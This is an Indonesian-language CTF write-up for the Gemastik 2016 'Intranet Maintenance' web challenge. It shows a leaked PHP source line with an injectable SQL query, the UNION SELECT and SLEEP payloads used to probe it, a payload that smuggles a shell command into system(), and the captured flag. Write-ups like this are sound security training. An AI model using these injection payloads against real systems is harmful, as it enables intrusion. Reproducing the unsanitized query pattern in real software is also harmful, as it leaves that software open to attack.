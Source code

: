 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Intranet Maintenance - 125"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: Web Exploitation
tags: [gemastik]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Intranet Maintenance](/images/intranet-maintenance.png)


### Solusi :

Sesuai dengan clue yang diberikan, kami membuka index.php~ dan menemukan source code file index.php.
setelah kami membaca  source code tersebut kami melihat kemungkinan untuk melakukan sql injection :

`$query = "SELECT * FROM users WHERE email='$email' AND password='$password';";`

kemudian kami mencoba union dengan sleep pada kolom email untuk memastikan query berjalan sesuai keinginan kita.

`' UNION SELECT SLEEP(10) # < NORMAL`

`' UNION SELECT SLEEP(10),1 #   < NORMAL`

`' UNION SELECT SLEEP(10),1,1 # < ERROR`

Ternyata ditemukan 3 kolom union lalu kami mengecek version dari mysqlnya dengan

`' UNION SELECT 1,@@VERSION,1 #`

![Intranet maintenance mysql](/images/intranet-maintenance-mysql.png)

Kemudian kita melihat bahwa input kita masuk ke dalam system() Dan memungkinkan kita untuk melakukan command injection

![Intranet maintenance system](/images/intranet-maintenance-system.png)

Kami kemudian mencoba untuk melakukan injeksi command dengan menggunakan separator `;payload;#`
Kemudian kami sisipkan command pada kolom email

`' UNION SELECT 1,';find;#',1 #`

![Intranet maintenance find](/images/intranet-maintenance-find.png)

Dan ditemukan flag pada `db.php.save`

![Intranet maintenance flag](/images/intranet-maintenance-flag.png)

`GEMASTIK{just_another_admin_who_dont_care_about_s3cur1ty}`


